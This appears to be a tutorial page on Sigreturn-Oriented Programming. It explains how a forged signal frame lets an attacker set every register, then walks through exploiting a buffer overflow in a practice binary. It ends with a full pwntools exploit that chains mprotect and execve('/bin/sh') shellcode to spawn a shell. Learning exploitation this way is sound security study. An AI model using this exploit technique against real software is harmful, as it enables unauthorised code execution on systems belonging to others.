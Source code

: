 # Sigreturn-Oriented Programming
This is a technique which can be used when there are few or not particularly useful gadgets. It requires only 2 gadgets: a way to manipulate `rax` and a `syscall`. The trade-off, however, is that it requires a bigger overflow depending on what you want to achieve.

When a signal occurs in Linux, the kernel stores the state of the process by constructing a *Signal Frame* on the stack. Once the signal has been processed, the `rt_sigreturn` syscall is envoked to restore the process's state from the stack. `rt_sigreturn`, however, does not check whether or not the state it is restoring from the stack is the same as the state that the kernel pushed onto it. Usually, this is not a problem because `rt_sigreturn` is never called without a signal having been processed - the syscall for it in libc is actually defined to just return an error code. Interestingly enough, there are also no protection mechanism to ensure that `rt_sigreturn` is called only after a signal has been processed which means that nothing is stopping an adversary from calling it and modifying the process's state by manipulating what is on the stack.

### The Signal Frame
The signal frame represents the state of a process which is backed up onto the stack when a signal needs to be handled and has the following format:

![](Resources/Images/ROP/Signal%20Frame.svg)

When `rt_sigreturn` is invoked, the top 248 bytes of the stack will be restored into the above locations.

### The Exploit
Consider the following programme:

![](Resources/Images/ROP/checksec%20srop.png)

![](Resources/Images/ROP/Sigreturn%20Programme.png)

The highlighted code allows an adversary to read 768 bytes into a buffer of size only 32, which results in a buffer overflow. In order to trigger the buffer overflow, we can inspect the code and calculate (alternatively you can fuzz the programme) the number of padding bytes which we will need - this turns out to be 40. Since the NX is enabled, we will need to build a ROP chain. Unfortunately, there is a little snag - there are barely any gadgets available. 

![](Resources/Images/ROP/SROP%20Gadgets.png)

So we will have to be more sophisticated and use Sigreturn-oriented programming. We see that there is a readily-available `syscall` gadget, but there is no straightforward way to manipulate the `rax` registered which is needed for issuing syscalls.

Upon further inspection, the `loc.write` procedure invokes `sys_write` which is lucky for us because if `sys_write` is successful, it returns the number of characters written in `rax`. Now that we know how to manipulate `rax`, we turn our attention to the construction of our ROP chain.

The ROP chain begins by invoking `loc.vuln` again, so that it may in turn invoke `loc.write`. Once `loc.vuln` is called, the programme will ask us for input. We need to send 14 characters (the 15-th being the `\n` at the end) to it, so that `loc.write` can then print those 15 characters and set `rax` equal to 15 as a result. Once these characters have been written, `loc.vuln` will return execution to our ROP chain. Since `rax` now contains the syscall number of `rt_sigreturn`, namely 15, the next instruction in the ROP chain should be `syscall`.

`rt_sigreturn` will take the top 248 bytes of the stack and attempt to restore the state of the process from them. This means that all registers will be overwritten with values from the stack. Since we control what is on the stack via the buffer overflow, we also control what gets put into those registers. Therefore, the payload for the ROP chain should also contain an artificial signal frame after the `syscall` instruction, which will be the top of the stack.

From here on, all that is left is figuring out a quick way to get a shell. I have opted for some shellcode which invokes `execve` with `"/bin/sh"`. To do this we need to use `sys_mprotect` to change the permissions of a memory region to read-write-execute. Therefore, the registers inside our malicious signal frame should contain the following values:
- `rax` - `0xA` (the number for the `sys_mprotect` system call)
- `rdi` - the beginning of the memory region whose permissions we want to change
- `rsi` - the size of the memory region 
- `rdx` - `0x7` (RWX permissions)
- `rip` - the address of the `syscall` gadget

Now, it would have been nice if we had a way to preserve the value of the stack pointer, but that is not possible. Since we are forced to overwrite it, however, we might as well make do with what we can. We have no way of referring to the stack prior to `rt_sigreturn`, so we will just invent a new one!

In order to achieve this, we need to find a location in memory which contains the address of `loc.vuln`, even if it does so only coincidentally. The reason for this is that, after `rt_sigreturn` finishes, `rip` will be set to the `syscall` gadget which will execute `sys_mprotect`. The instruction after the syscall is a `ret` which means that the value of the location pointed to by `rsp` will be copied to `rip`, and we want it to then proceed again with the execution of `loc.vuln`. Hence why `rsp` should contain a *pointer* to the address of `loc.vuln`. 

Now that memory is executable, we proceed by exploiting `loc.vuln` yet another time in order to execute the shellcode which spawns a shell. 

![](Resources/Images/ROP/Sigreturn%20Exploit.svg)

With this information we can construct an exploit using pwntools:

```python
from pwn import *

context.clear(arch='amd64')

p = process("./srop")

syscall_address = 0x401014 # &syscall
sigreturn_number = 0xF
mprotect_number = 0xA
mprotect_permissions = 0x7

vuln_address = 0x40102e # &loc.vuln()
pointer_to_vuln_address = 0x4010d8 # &&loc.vuln() - using a debugger, I found that this location contains 0x40102e at runtime

padding = b'A' * 40

signal_frame = SigreturnFrame(kernel="amd64")
signal_frame.rax = mprotect_number
# It does not matter what memory we make RWX, but for simplicity, we are just going to make a huge chunk from the beginning of the binary executable. We just need to make sure that the new stack will be contained in it.
signal_frame.rdi = 0x400000 # Beginning of the memory block (in this case, the binary)
signal_frame.rsi = 0x10000 # Size of the memory block
signal_frame.rdx = mprotect_permissions
signal_frame.rip = syscall_address # This will proceed to execute sys_mprotect
signal_frame.rsp = pointer_to_vuln_address # Beginning of the new stack

payload = padding + p64(vuln_address) + p64(syscall_address) + bytes(signal_frame)
p.sendline(payload)
p.recv()

# Send 15 characters (14*'A' + '\n')
p.sendline(b'A' * (sigreturn_number - 1))
p.recv()

# Remove the comments in the assembly in order for it to compile
shellcode = asm("""
mov rdi, 0x68732f6e69622f ; '/bin/sh\x00' in little-endian
push rdi
mov rdi, rsp
mov rax, 0x3b ; execve syscall number
xor rsi, rsi
xor rdx, rdx
syscall
""", arch="amd64")

# The stack pointer will be moved 40 bytes down and the padding will take those 40 bytes, reaching pointer_to_vuln_address. We then add 1 byte for the value contained at pointer_to_vuln_address itself and then add 1 more byte to make room for the actual shellcode_address.
shellcode_address = pointer_to_vuln_address + 0x10

payload = b'A'*40 + p64(shellcode_address) + shellcode
p.sendline(payload)

p.interactive()
```

![](Resources/Images/ROP/Sigreturn%20shell.png)